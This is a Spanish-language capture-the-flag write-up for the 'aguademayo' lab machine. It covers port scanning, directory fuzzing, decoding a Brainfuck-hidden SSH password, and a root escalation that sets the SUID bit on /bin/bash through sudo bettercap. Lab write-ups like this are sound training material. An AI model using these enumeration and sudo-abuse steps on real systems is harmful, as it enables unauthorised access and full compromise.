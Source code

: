 
> Habilidades: Brainfuck Decode, SUID Privilege Escalation


# RECONOCIMIENTO

## Nmap

Realizamos el primer sondeo a la ip para averiguar que puertos están abiertos:

~~~ bash
nmap --open -p- -n -sS -Pn $ip -oG FirsScan
~~~

![first_nmap_scan](https://raw.githubusercontent.com/wilasky/images/refs/heads/master/Nmap1Scan.png?token=GHSAT0AAAAAAC54CWSGEV6PDZMUVMIOYQYCZ4UYMXQ)

- `--open`: Mostrar solamente los puertos abiertos
- `-p-`: Escanear todo el rango de puertos (65535)
- `-sS`: Modo de escaneo TCP SYN, usa una técnica más sigilosa para determinar que el puerto está abierto al no concluir la conexión
- `-n`: No aplicar resolución DNS, lo que acelera el escaneo
- `-Pn`: Deshabilitar el descubrimiento de host, o sea, asume que el objetivo se encuentra activo, por lo que no hace un `ping` previo a `aguademayo.local`

- `-oG`: Exportar el escaneo a un formato `Grepable`, lo que es más útil a la hora de extraer información de nuestro archivo, como por ejemplo, los puertos abiertos encontrados

### Services Scan

~~~ bash
nmap -sVC -p 22,80 aguademayo.local -oN targeted
~~~

![ports_scan](https://github.com/user-attachments/assets/ffb91eb8-6e7f-44cd-8927-ab8724c33796)


## Http Service

Vemos el puerto `80` que corresponde a un servicio `http`, veamos que hay en él. Podemos usar la herramienta `whatweb` para listar las tecnologías detectadas en el servidor

~~~ bash
whatweb http://172.17.0.2
~~~

![web](https://github.com/user-attachments/assets/970206d2-801c-41fc-9bc5-d82bae6a4533)

## Fuzzing

Lo siguiente que haremos será intentar descubrir posibles directorios existentes en este servicio web, en este caso podemos usar cualquier herramienta de fuzzing, usaré `wfuzz` y `gobuster`
### Wfuzz

~~~ bash
wfuzz -c --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 http://aguademayo.local/FUZZ
~~~

![wfuzz_fuzzing](https://github.com/user-attachments/assets/118a1b0f-c47e-43e7-b0ae-481a9c397ec7)

- `-c`: Formato colorizado
- `--hc=404`: Ocultar el código de estado 404 (No encontrado)
- `-w`: Especificar un diccionario de palabras
- `-t 200`: Dividir el proceso en 200 hilos, agilizando la tarea

### Gobuster

~~~ bash
gobuster dir -u http://aguademayo.local -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
~~~

![gobuster fuzzing](https://github.com/user-attachments/assets/53042682-8d30-463e-87b2-1447df299489)

- `dir`: Modo de descubrimiento de directorios y archivos
- `-u`: Dirección URL
- `-w`: Diccionario a usar
- `-t 200`: Establecer 200 subprocesos 

Podemos ver que en ambos casos se ha descubierto el directorio `images`, vamos a ver que contiene con `firefox`, o si no te gusta abandonar la terminal, con `curl`

~~~ bash
curl -sL -X GET http://172.17.0.2/images
~~~

![curl a images](https://github.com/user-attachments/assets/7a09eafc-ab53-485c-9079-72c92a91e74c)

- `-s`: No mostrar progreso o error de la solicitud
- `-L`: Habilitar el redireccionamiento
- `-X`: Especificar el método HTTP a usar

![dir images](https://github.com/user-attachments/assets/502fede3-bd5b-440d-97ab-02620d42bbe3)

Vemos un archivo  `agua_ssh.jpg`, procedemos a traerla a nuestra máquina y ver de qué se trata

![imagen_ssh](https://github.com/user-attachments/assets/8757624b-9779-4469-af7c-4b72bf5c5fcc)

~~~ bash
wget http://aguademayo.local/images/agua_ssh.jpg
~~~

![wget agua_ssh](https://github.com/user-attachments/assets/90bbcbd2-1463-4918-a107-7b0b448d23b3)

El nombre del archivo `agua_ssh.jpg` me parece un tanto raro, ya que contiene `ssh` en el nombre, esto me hace creer que `agua` es un usuario válido en la máquina.

Si hacemos un análisis del archivo o imprimimos los caracteres de la imagen, no encontramos mayores pistas

## Exiftool Analysis

~~~ bash
exiftool agua_ssh.jpg
~~~

![exiftool_analysis](https://github.com/user-attachments/assets/69759702-ede8-411b-bc90-af525c59fce0)


## Strings

~~~ bash
strings agua_ssh.jpg
~~~

![listar caracteres](https://github.com/user-attachments/assets/8aba8f9d-253a-4533-a0e2-1528cdcaa042)


# Intrusión
---
## Brainfuck Decode

Si vemos el código fuente podemos ver algo inusual al final del todo en un comentario HTML

![web codigo raro](https://github.com/user-attachments/assets/467905dc-b906-47e8-9f9b-a92ebbefd7df)

Como no sabía a qué me enfrentaba, lo primero que hice fue buscar este comentario HTML en Google

![decode ](https://github.com/user-attachments/assets/a8bfb2fb-b654-494a-bb43-81f6d1be466a)

Podemos ver que hay un mensaje escrito en lenguaje Brainfuck, así que lo decodificaremos con ayuda de esta web `https://dcode.fr/brainfuck-language`
**No olvidemos quitar los caracteres del comentario HTML** (`<!--` y `-->`)

![decrypt](https://github.com/user-attachments/assets/0d8e55e6-bd5e-4690-b69a-3f77d109afc4)

Vemos que el mensaje escondido se trata de la palabra `bebeaguaqueessano`, quizá sea la contraseña del usuario `agua`, por lo que probamos conectarnos por `ssh`

~~~ bash
ssh agua@aguademayo.local
~~~

![entramos por ssh](https://github.com/user-attachments/assets/d00de753-2e0c-4d32-b543-4c7da29f1fb8)


# Escalada de privilegios
---
## Tratamiento TTY

Una vez tenemos acceso, haremos un tratamiento de la TTY para limpiar la pantalla con `Ctrl + L`, para esto cambiaremos el valor de la variable `$TERM`

~~~ bash
export TERM=xterm
~~~

## Sudoers

Primeramente veremos si tenemos privilegios `sudo` con el siguiente comando

~~~ bash
sudo -l
~~~

![sudo -l](https://github.com/user-attachments/assets/4c4df56f-36ed-4d14-87f8-5df9ce7673c0)

- `-l`: Enumerar los comandos permitidos (o prohibidos) invocables por el usuario en la máquina actual


Existe `bettercap` en la máquina y podemos ejecutarlo sin proporcionar contraseña, ejecutaremos el binario

~~~ bash
sudo bettercap
~~~

![exec bettercap with sudo](https://github.com/user-attachments/assets/8b2b3182-7951-491f-a10f-8ef29cd2139e)

Veamos el panel de ayuda con el comando `help`

![bettercap help](https://github.com/user-attachments/assets/3752382d-c7d9-4f66-acbb-784d1a8385f3)

![help bettercap](https://github.com/user-attachments/assets/42e3730f-aa2b-414c-8185-d124b5e4cd7b)


## SUID Privilege Escalation

Esta opción (`!`) nos permite ejecutar un comando a nivel de sistema, así que podemos asignar el privilegio SUID a la `bash` para ejecutarla como `root`, para eso, lo haremos con el comando `chmod`, dentro de la consola interactiva de `bettercap` ejecutamos el siguiente comando

~~~ bash
! chmod u+s /bin/bash
~~~

También podemos hacer esto con un solo comando con la opción `-eval` 

~~~ bash
sudo bettercap -eval "! chmod u+s /bin/bash"
~~~

![cambiar el privilegio onliner](https://github.com/user-attachments/assets/48db4ad6-d528-42c2-a14d-f0fd8c97b612)

- `-eval`: Ejecutar un comando en la máquina


## Root time

Ahora supuestamente asignamos la capacidad de ejecutar `bash` como el usuario `root`, lo podemos verificar con el comando `ls -l /bin/bash` para listar los permisos.

![bash permisions](https://github.com/user-attachments/assets/d3d00e95-9394-47b6-8d64-6bb444c6eae4)

Así que ejecutamos `bash` como el propietario, y nos convertimos en el usuario `root`

~~~ bash
bash -p
~~~

- `-p`: Ejecutar como el usuario original

![bash como root](https://github.com/user-attachments/assets/3bdbe0a3-ad67-4758-80ed-03c209b20d9b)
